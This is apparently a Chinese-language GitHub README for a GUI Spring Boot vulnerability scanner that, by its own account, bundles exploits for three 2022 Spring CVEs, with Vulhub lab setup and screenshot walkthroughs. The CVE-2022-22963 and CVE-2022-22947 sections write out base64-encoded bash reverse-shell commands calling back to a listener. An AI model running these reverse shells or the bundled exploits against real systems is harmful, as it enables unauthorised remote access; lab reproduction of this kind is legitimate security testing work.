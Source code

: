 ![SpringBoot-Scan-GUI](https://socialify.git.ci/13exp/SpringBoot-Scan-GUI/image?font=Bitter&forks=1&issues=1&language=1&name=1&owner=1&pattern=Diagonal%20Stripes&stargazers=1&theme=Dark)

开源工具 [SpringBoot-Scan](https://github.com/AabyssZG/SpringBoot-Scan) 的GUI图形化版本，对你有用的话麻烦点个Star哈哈~

![GUI](https://github.com/AabyssZG/SpringBoot-Scan/raw/main/pic/GUI.png)

**注意：本工具内置相关漏洞的Exp，杀软报毒属于正常现象！**

## Windows使用

```
python3 SpringBoot-Scan-GUI.py
```

也可以直接下载执行release打包好的exe程序

## Linux使用

```
python3 SpringBoot-Scan-GUI-Linux.py
```

或者使用 `wine` 来执行：

```
sudo wine SpringBoot-Scan-GUI.exe
```

## VulHub 漏洞测试环境搭建

```
git clone https://github.com/vulhub/vulhub.git
```

### 安装Docker环境

```
sudo apt-get install docker.io
sudo apt install docker-compose
```

### 搭建CVE-2022-22965

```
cd /vulhub/CVE-2022-22965
sudo docker-compose up -d
```

### 搭建CVE-2022-22963

```
cd /vulhub/CVE-2022-22963
sudo docker-compose up -d
```

### 搭建CVE-2022-22947

```
cd /vulhub/CVE-2022-22947
sudo docker-compose up -d
```

如果报错，自行修改 `.yml` 文件中映射的端口号

## 漏洞复现演示

### 一、CVE-2022-22965

#### VulHub 环境复现

![image](https://user-images.githubusercontent.com/73600604/218236128-21bf37e5-e8c2-45de-9f9e-50fbe8ad1574.png)
![image](https://user-images.githubusercontent.com/73600604/218236233-68986684-4698-46d0-a36e-d95d37a2620b.png)
![image](https://user-images.githubusercontent.com/73600604/218236243-0d6b2eb4-6b2d-4c88-91ea-be4a5760675d.png)

**内置shell**
![image](https://user-images.githubusercontent.com/73600604/218236608-102b9342-1f92-4268-88de-9f35c5de22ce.png)

**aabysszg-shell**
![image](https://user-images.githubusercontent.com/73600604/218236258-348c30f4-7a5e-43e9-8f12-0f4eb1f27e99.png)

**13exp-shell**

![image](https://user-images.githubusercontent.com/73600604/218236580-097727c0-cd79-47bc-af8a-3b509324ec3e.png)

#### 春秋云境 环境复现

![image](https://user-images.githubusercontent.com/73600604/218236469-833740d2-b754-46d8-848d-89236f5ec72b.png)

**内置shell**
![image](https://user-images.githubusercontent.com/73600604/218236715-9815addd-2502-4e6c-a11c-5ccd054a57ac.png)

**13exp-shell**
![image](https://user-images.githubusercontent.com/73600604/218236734-655bcfe4-0eac-433d-aa66-07ad51af9fbb.png)

**aabysszg-shell**
![image](https://user-images.githubusercontent.com/73600604/218236497-11401635-b171-4536-9faa-f431324612a9.png)
![image](https://user-images.githubusercontent.com/73600604/218236516-71dae6a1-3f59-459c-82c8-b49c3d191f6c.png)

### 二、CVE-2022-22963

#### VulHub 环境复现

准备反弹shell：

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA1Lzg4ODggMD4mMQ==}|{base64,-d}|{bash,-i} || (Base64)
```

编码内容→ `bash -i >& /dev/tcp/192.168.0.105/8888 0>&1`

Kali监听对应端口：
![image](https://user-images.githubusercontent.com/73600604/218240588-a377065e-c4fc-403c-950d-0e688b7e446c.png)

**漏洞利用**
![image](https://user-images.githubusercontent.com/73600604/218240553-009588c6-be8f-4bbd-9fe8-d3e8cc001795.png)
![image](https://user-images.githubusercontent.com/73600604/218240609-246afc87-e671-4565-bf68-f3dda7360961.png)

#### 春秋云境 环境复现

注:云境反弹shell需使用公网服务器

服务器监听
![image](https://user-images.githubusercontent.com/73600604/218291287-9b248ffa-f4fe-4195-b665-ba333aa5721c.png)

![image](https://user-images.githubusercontent.com/73600604/218291509-dca8ef79-3453-4add-bba1-cfd513a4fbc3.png)
![image](https://user-images.githubusercontent.com/73600604/218291366-7eb7e58b-54ca-4d72-bd0e-f6bc6fa4367f.png)


### 三、CVE-2022-22947

#### VulHub 环境复现

同样准备反弹shell

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA1Lzg4ODkgMD4mMQ==}|{base64,-d}|{bash,-i} || (Base64)
```

编码内容→ `bash -i >& /dev/tcp/192.168.0.105/8889 0>&1`

kali监听对应端口：
![image](https://user-images.githubusercontent.com/73600604/218240722-f36a7ac5-b2c3-4043-9b9e-54be43052799.png)

**漏洞利用**
![image](https://user-images.githubusercontent.com/73600604/218240756-52bb0691-bcbe-4057-b502-716d86aa2a1d.png)
![image](https://user-images.githubusercontent.com/73600604/218241387-1c6b9198-3e76-434b-8a8d-96533613cd26.png)

#### 春秋云境 环境复现

![image](https://user-images.githubusercontent.com/73600604/218237116-b3897e7c-2c88-45c6-97ad-276c3e7be052.png)
![image](https://user-images.githubusercontent.com/73600604/218257247-eb1ec709-dcaa-4855-8890-c263c15bc890.png)

## 项目Star统计

![star](https://starchart.cc/13exp/SpringBoot-Scan-GUI.svg)
